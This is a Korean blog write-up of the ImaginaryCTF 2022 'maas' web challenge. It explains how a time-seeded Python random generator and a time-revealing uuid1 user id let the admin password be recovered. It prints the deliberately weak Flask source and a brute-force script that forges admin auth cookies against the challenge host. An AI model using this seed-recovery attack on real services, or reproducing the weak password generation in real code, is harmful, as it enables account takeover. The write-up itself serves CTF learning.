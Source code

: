 ```yaml
---
title: "[ImaginaryCTF 2022] maas"
categories: [CTF, Writeup]
tags: [Writeup]
date: 2022-07-19 11:10:00 +09:00
author: aestera
---
```


# mass


![Untitled](/assets/img/post_images/mass/main.png)
CTF를 풀 때는 돌다리도 두드려 보고 건너라 라는 교훈을 준 문제였다.

![Untitled](/assets/img/post_images/mass/login.png){: width="80%" height="80%"} ![Untitled](/assets/img/post_images/mass/register.png){: width="80%" height="80%"}

문제의 로그인 페이지와 회원가입 페이지이다. 회원가입은 Username만 입렵해주면 된다.
<br><br>

![Untitled](/assets/img/post_images/mass/test1.png)

test1 으로 회원가입 했더니 Password를 뿌려준다. Password를 만들어주는 로직이 있는 것 같다.
<br><br>

![Untitled](/assets/img/post_images/mass/home.png)

주어진 비밀번호로 로그인했더니 admin만이 flag를 얻을 수 있다고 한다.<br>
코드를 보며 admin 검증 로직을 살펴보자.

```python
from flask import Flask, render_template, request, make_response, redirect
from hashlib import sha256
import time
import uuid
import random

app = Flask(__name__)

memes = [l.strip() for l in open("memes.txt").readlines()]
users = {}
taken = []

def adduser(username):
  if username in taken:
    return "username taken", "username taken"
  password = "".join([random.choice("abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789") for _ in range(30)])
  cookie = sha256(password.encode()).hexdigest()
  users[cookie] = {"username": username, "id": str(uuid.uuid1())}
  taken.append(username)
  return cookie, password

@app.route('/')
def index():
    return redirect("/login")

@app.route('/users')
def listusers():
  return render_template('users.html', users=users)

@app.route('/users/<id>')
def getuser(id):
  for k in users.keys():
    if users[k]["id"] == id:
      return f"Under construction.<br><br>User {users[k]['username']} is a very cool user!"

@app.route('/login', methods=['GET', 'POST'])
def login():
  if request.method == "POST":
    resp = make_response(redirect('/home'))
    cookie = sha256(request.form["password"].encode()).hexdigest()
    resp.set_cookie('auth', cookie)
    return resp
  else:
    return render_template('login.html')

@app.route('/register', methods=['GET', 'POST'])
def register():
  if request.method == "POST":
    cookie, password = adduser(request.form["username"])
    resp = make_response(f"Username: {request.form['username']}<br>Password: {password}")
    resp.set_cookie('auth', cookie)
    return f"Username: {request.form['username']}<br>Password: {password}"
  else:
    return render_template('register.html')

@app.route('/home', methods=['GET'])
def home():
    cookie = request.cookies.get('auth')
    username = users[cookie]["username"]
    if username == 'admin':
        flag = open('flag.txt').read()
        return render_template('home.html', username=username, message=f'Your flag: {flag}', meme=random.choice(memes))
    else:
        return render_template('home.html', username=username, message='Only the admin user can view the flag.', meme=random.choice(memes))

@app.errorhandler(Exception)
def handle_error(e):
    return redirect('/login')

def initialize():
  random.seed(round(time.time(), 2))
  adduser("admin")

initialize()
app.run('0.0.0.0', 8080)
```
home() 을 살펴보면 쿠키값으로 admin 검증을 한다. 계정마다 고유한 값을 가지고 있기 때문에<br>
admin이 아닌 다른 계정으로 FLAG를 얻는 것은 사실상 불가능해 보인다.<br>
admin의 비밀번호를 알아내 admin으로 로그인하는 것을 목표로 해야 할 것 같다.
<br><br>

![Untitled](/assets/img/post_images/mass/users.png)

/user 경로에 접속해보면 회원가입한 모든 user들이 보인다. 제일 위에 admin이 보인다.
<br><br>

![Untitled](/assets/img/post_images/mass/adminid.png)

admin을 클릭해 보면 이러한 페이지가 나오고 이 페이지에서 알 수 있는 것은 /users 뒤의 경로인 admin id 뿐이다.<br>
여기서 더이상 할 수 있는것이 없어 꽤 오랜시간 삽질했다.
<br><br>

****
<br><br>

 ```python
 def adduser(username):
  if username in taken:
    return "username taken", "username taken"
  password = "".join([random.choice("abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789") for _ in range(30)])
  cookie = sha256(password.encode()).hexdigest()
  users[cookie] = {"username": username, "id": str(uuid.uuid1())}
  taken.append(username)
  return cookie, password

def initialize():
  random.seed(round(time.time(), 2))
  adduser("admin")

initialize()
app.run('0.0.0.0', 8080)
```
다시 코드로 돌아와 살펴보면 password와 cookie 그리고 id를 만드는 로직이 있다.<br>
random.choice()로 password를 만들고 sha256으로 hashing해 cookie를 만든다.<br><br>
여기서 initialize()의 radome.seed()를 보면 서버가 처음 열릴 때 seed값을 설정해주면서 admin계정을 만들어 준다. seed값은 time.time() 값을 소주점 둘째자리까지 반올림한 값이다.<br><br>
python의 random.choice는 seed값의 영향을 받는다. seed값이 같으면 random.choice가 같은 결과를 리턴한다. 우리가 time.time() 값만 알 수 있으면 seed 값을 알아내 admin의 cookie값을 찾아낼 수 있다.

```python
users[cookie] = {"username": username, "id": str(uuid.uuid1())}
```
여기서 주목해야 할 부분은 uuid.uuid1이다. 대수롭지 않게 넘겼던 uuid1은<br>
host ID, 시퀀스 번호, 및 **현재 시각**으로 UUID를 설정한다. 즉 uuid1으로 생성된 admin의 ID를 decode해보면 계정이 생성된 시간을 알 수 있다. 
<br><br>

![Untitled](/assets/img/post_images/mass/uuid.png)

UUID 디코더로 시간을 알아냈다. 이제 알아낸 시간의 format을 time.time()처럼 unix timestamp로 변환하면
<br><br>

![Untitled](/assets/img/post_images/mass/timestamp.png)

코드가 돌아가는 시간이 필요하기 때문에 정확한 seed값이 아닌 근사값을 알아냈다.<br>
따라서 맞는 seed값이 나올 때 까지 cookie를 만들어 /home경로에 접속하면 flag를 획득할 수 있을 것 같다.
<br><br>
시간은 연속적이기 때문에 기본적으로 소수점을 붙여 주었지만 현재 둘째짜리까지 반올림해 주었기 때무넹 0.01씩 더해주며 cookie를 만들어 주면 될 것 같다.

<br><br>

****

# Exploit

```python
import requests, time
import random
from hashlib import sha256

i = 1658155912

for count in range(1000):
    random.seed(round(i, 2))
    password ="".join([random.choice("abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789") for _ in range(30)])
    cookie = sha256(password.encode()).hexdigest()

    URL = "http://maas.chal.imaginaryctf.org/home"
    cookies = {"auth":cookie}
    res = requests.get(URL, cookies=cookies)

    if "Hello admin!" in res.text:
        print(res.text)
        break
    else:
        fail = str(count)+ " try " + cookie
        print(fail)
        i += 0.01
```
문제를 풀기위한 script이다. 이 script를 돌려보면
<br><br>

![Untitled](/assets/img/post_images/mass/flag.png)

flag를 얻을 수 있다. 랜덤값이라고 그냥 지나쳤던 UUID에 대해 다시 공부할 수 있는 계기가 되었던 것 같다.
<br><br>

**FLAG : ictf{d0nt_use_uuid1_and_please_generate_passw0rds_securely_192bfa4d}**








